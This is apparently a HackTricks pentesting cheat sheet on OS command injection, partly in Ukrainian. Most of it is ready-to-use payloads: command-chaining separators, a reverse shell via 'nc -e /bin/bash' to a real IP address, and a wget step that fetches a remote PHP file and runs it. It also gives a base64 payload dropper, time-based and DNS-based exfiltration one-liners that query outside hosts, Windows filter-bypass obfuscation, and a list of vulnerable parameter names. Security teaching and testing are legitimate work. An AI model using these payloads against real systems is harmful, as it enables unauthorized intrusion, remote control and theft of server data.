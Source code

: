 # Command Injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Get a hacker's perspective on your web apps, network, and cloud

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## What is command Injection?

**Командна ін'єкція** дозволяє зловмиснику виконувати довільні команди операційної системи на сервері, що хостить додаток. В результаті, додаток і всі його дані можуть бути повністю скомпрометовані. Виконання цих команд зазвичай дозволяє зловмиснику отримати несанкціонований доступ або контроль над середовищем додатка та основною системою.

### Context

Залежно від **того, куди вводиться ваш ввід**, вам може знадобитися **закінчити цитований контекст** (використовуючи `"` або `'`) перед командами.

## Command Injection/Execution
```bash
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```
### **Обхід** обмежень

Якщо ви намагаєтеся виконати **произвольні команди всередині linux машини**, вам буде цікаво прочитати про ці **Обходи:**

{% content-ref url="../linux-hardening/bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../linux-hardening/bypass-bash-restrictions/)
{% endcontent-ref %}

### **Приклади**
```
vuln=127.0.0.1 %0a wget https://web.es/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php
vuln=127.0.0.1%0anohup nc -e /bin/bash 51.15.192.49 80
vuln=echo PAYLOAD > /tmp/pay.txt; cat /tmp/pay.txt | base64 -d > /tmp/pay; chmod 744 /tmp/pay; /tmp/pay
```
### Параметри

Ось 25 найпоширеніших параметрів, які можуть бути вразливими до ін'єкцій коду та подібних вразливостей RCE (з [посилання](https://twitter.com/trbughunters/status/1283133356922884096)):
```
?cmd={payload}
?exec={payload}
?command={payload}
?execute{payload}
?ping={payload}
?query={payload}
?jump={payload}
?code={payload}
?reg={payload}
?do={payload}
?func={payload}
?arg={payload}
?option={payload}
?load={payload}
?process={payload}
?step={payload}
?read={payload}
?function={payload}
?req={payload}
?feature={payload}
?exe={payload}
?module={payload}
?payload={payload}
?run={payload}
?print={payload}
```
### Часова ексфільтрація даних

Витягування даних: по символу
```
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```
### DNS на основі ексфільтрації даних

На основі інструменту з `https://github.com/HoLyVieR/dnsbin`, також розміщеного на dnsbin.zhack.ca
```
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

```
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```
Онлайн-інструменти для перевірки витоку даних на основі DNS:

* dnsbin.zhack.ca
* pingb.in

### Обхід фільтрації

#### Windows
```
powershell C:**2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:**32\c*?c.e?e # calc
```
#### Linux

{% content-ref url="../linux-hardening/bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../linux-hardening/bypass-bash-restrictions/)
{% endcontent-ref %}

## Список виявлення грубої сили

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/command_injection.txt" %}

## Посилання

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
* [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Отримайте перспективу хакера щодо ваших веб-додатків, мережі та хмари

**Знайдіть та повідомте про критичні, експлуатовані вразливості з реальним бізнес-імпактом.** Використовуйте наші 20+ спеціальних інструментів для картографування атакуючої поверхні, знаходження проблем безпеки, які дозволяють вам підвищити привілеї, та використовуйте автоматизовані експлойти для збору важливих доказів, перетворюючи вашу важку працю на переконливі звіти.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}
